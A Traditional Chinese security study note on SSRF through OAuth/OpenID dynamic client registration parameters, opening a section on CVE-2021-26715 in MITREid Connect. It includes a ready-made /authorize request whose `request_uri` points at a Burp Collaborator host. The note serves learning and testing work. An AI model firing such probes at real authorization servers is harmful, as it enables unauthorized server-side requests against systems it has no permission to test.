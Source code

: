 
如果存在漏洞，server 會對提供的 `jwks_uri` 執行 server-to-server 的 HTTP request，因為它需要這個 key 來檢查請求中 `client_assertion` 參數的有效性。不過，這可能只是個 [blind SSRF](https://portswigger.net/web-security/ssrf/blind) 漏洞，因為 server 希望得到正確的 JSON response  

- `sector_identifier_uri`
  - 一個存著 `redirect_uri` URI 的 JSON array 檔案 URL
  - 如果支持，server 會在你 submit dynamic registration request 後立即獲取該值
    - (如果沒有立即獲取，請嘗試在 server 上對該 client application 執行授權)
  - 由於需要知道 `redirect_uris` 才能完成授權流程，這將迫使 server 向惡意 `sector_identifier_uri` 發出 request
- `request_uris`
  - 該 client application 允許的 `request_uris` array
  - authorization endpoint 可支持 `request_uri` 參數，以提供包含請求資訊的 JWT 的 URL
  - (注意: 不要將該參數與 `redirect_uri`混淆。`redirect_uri`用於授權後的 redirect，而 `request_uri` 是 server 在授權流程開始時獲取的)
  - **即使未啟用 dynamic client registration**，或需要進行身份驗證，我們也可以嘗試使用 `request_uri` 在 authorization endpoint 上執行 SSRF：

```
GET /authorize?response_type=code%20id_token&client_id=sclient1&request_uri=https://ybd1rc7ylpbqzygoahtjh6v0frlh96.burpcollaborator.net/request.jwt
```


同時，我們看到許多 server 不允許任意的 `request_uri` 值
- 它們只允許在 client 註冊過程中預先註冊的白名單 URL
- 這就是為什麼需要事先提供 `"request_uris": "https://ybd1rc7ylpbqzygoahtjh6v0frlh96.burpcollaborator.net/request.jwt"`

以下參數也包含 URL，但通常不用於發出 server-to-server requests。相反，它們用於 client 的 redirection/referencing:
- `redirect_uri`: 授權後用於 redirect client 的 URL
- `client_uri`: client application main page 的 URL
- `policy_uri`: Relying Party client application 提供的 URL
  - 以便 end user 了解如何使用其配置文件資料
- `tos_uri`: Relying Party client 提供的 URL，以便 end point 閱讀 relying Party 的服務條款
- `initiate_login_uri`: 使用 `https` 方案的 URI
  - 第三方可使用該 URI 啟動 RP 的登錄。也可用於 client-side redirection


根據 OAuth 和 OpenID 規範，所有這些參數都是 optional 參數
- 特定 server 並不總是支持這些參數，因此需要確定你的 server 支持哪些參數

如果你的目標是 OpenID server
- 位於 `.well-known/openid-configuration` 的發現 endpoint 有時會包含 `registration_endpoint`, `request_uri_parameter_supported`和 `require_request_uri_registration` 等參數
  - 這些參數可幫助你找到 registration endpoint 和其他 server config value


---------------------

## CVE-2021-26715: 在 MITREid Connect，透過 `logo_uri` 執行 SSRF
[MITREid Connect](https://github.com/mitreid-connect/OpenID-Connect-Java-Spring-Server) 充當獨立的 OAuth authorization server
- 在 default 配置中，它的大部分頁面都需要適當的授權，而且你甚至不能建立新用戶，只有管理員才允許建立新帳號
- 它還實現了 [OpenID Dynamic Client Registration](https://openid.net/specs/openid-connect-registration-1_0.html) 
- 並支持註冊 client OAuth application
  - 雖然該功能僅在 admin panel 中引用，但實際的 `/register` endpoint 根本不會檢查當前 session
